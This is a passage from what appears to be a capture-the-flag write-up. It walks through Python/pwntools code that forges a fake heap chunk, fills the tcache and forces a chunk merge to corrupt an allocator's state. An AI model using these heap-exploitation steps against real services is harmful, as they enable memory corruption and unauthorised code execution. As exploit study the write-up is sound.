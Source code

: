 ```goat  
```

Since we later want to overwrite parts of the fake chunk, we write a utility
function for this. In order to alter the fake chunk, we first have to change
the contents of the big chunk that contains the start of the fake chunk. As
the big chunk is not needed afterwards and since we may want to reallocate it
later for other changes to the fake chunk, we can free it directly afterwards.  
```python  
def change_fake_chunk(con: tube, size: int, forward: int, backward: int=0) ->
None:  
   payload = flat({  
           # size  
           0x388: size | 1,  
           # forward, backward  
           0x390: forward,  
           0x398: backward,  
           # prev size  
           0x3c0: size,  
       })  
   post_message(con, 100, 0, True, payload.hex().encode() + b"0")  
   recv_message(con, 0)  
```

After preparing the fake chunk, we can now free the 0x100 chunk that we saved
for later. As it cannot be freed into tcache since it is full, it will be
merged with the prepared fake chunk and the resulting chunk will be appended
to the unsorted bin.

```python  
def create_fake_chunk_0x140(con: tube, base_address: int) -> None:  
   # allocate second Node object outside first big chunk  
   post_message(con, 100, 0, True, b"f"*(0x781*2+1))  
   post_message(con, 100, 0, True, b"f"*1001)  
   recv_message(con, 0)  
   recv_message(con, 0)

   post_message(con, 100, 0, True, b"f"*0x1e9)  
   post_message(con, 100, 1, True, b"f"*0x1e9) # first chunk split from the
big one

   # fill tcache  
   for _ in range(6):  
       post_message(con, 100, 0, True, b"f"*0x1e9)  
   for _ in range(7):  
       recv_message(con, 0)

   # unset previous in use flag and prepare fake chunk  
   change_fake_chunk(con, 0x40, base_address + 0x380, base_address + 0x380)

   # trigger merge  
   recv_message(con, 1)  
   print("fake chunk created")

create_fake_chunk_0x140(io, chunk_3c1_content)  
```

